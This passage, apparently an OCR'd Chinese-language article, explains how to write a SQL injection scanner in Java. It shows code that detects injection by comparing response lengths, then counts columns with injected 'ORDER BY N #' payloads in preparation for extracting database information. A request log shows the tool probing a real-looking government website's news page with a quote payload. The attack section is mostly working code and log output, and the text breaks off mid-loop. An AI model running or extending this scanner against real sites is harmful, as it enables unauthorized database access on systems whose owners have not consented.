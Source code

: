 ```
                if (len1 != content2.get("content").toString().length()||(Integer)content2.get("status")!=200) {
                    existsInjection = true;
                    sqlKey.add(str[i]);
                    break ;
                }
            }
        }
        if (existsInjection) {
//              System.out.println(existsInjection?"Site:"+url+" 可能存在"+(typeIsNumber?"int":"String")+"型Sql注入"+"SQL注入.":"Not Found.");
            getSelectColumnCount(str);
            getDatabaseInfo();
        }
    }

```

检测过程主要发送了几次请求，一次正常的请求和N次带有SQL注入的请求。如果SQL注入的请求和正常请求的结果不一致（有不可控因素，比如SQLMAP的实现方式就有去计算页面是否稳定，从而让检测出来的结果更加准确）就可能是存在SQL注入。

日志如下：

```
url:http://www.tchjbh.gov.cn:80//news_display.php
param:id=148
url:http://www.tchjbh.gov.cn:80//news_display.php
param:id=148'
url:http://www.tchjbh.gov.cn:80//news_display.php
param:id=148

```

获取字段数主要是通过：

```
/**
     * 获取查询字段数
     * @param str
     */
    public static int getSelectColumnCount(String str[]){
        Map<String,Object> sb = HttpHelper.sendGet(protocol+"://"+schema+":"+port+"/"+filesIndex+"/"+file,parameter);//原始的请求包
        int len1 = sb.get("content").toString().length();//原始请求的response长度
        int count = -1;
        for (Object o : sqlKey) {
            count = getSbCount(o.toString(), len1);//计算字段
        }
        return count;
    }

/**
     *获取order by 字段数
     * @param key
     * @param len1
     * @return
     */
    public static int getSbCount(String key,int len1){
        System.out.println("-----------------------end:"+end+"-----------------------------");
        Map<String,Object> sb = HttpHelper.sendGet(uri, parameter.replace(key, key+"+orDer+By+"+end+"+%23"));
        if (1 == end|| len1==((String)sb.get("content")).length()&&200==(Integer)sb.get("status")) {
            System.out.println("index:"+end);
            start = end;
            for (int i = start; i < 2*start+1; i++) {
```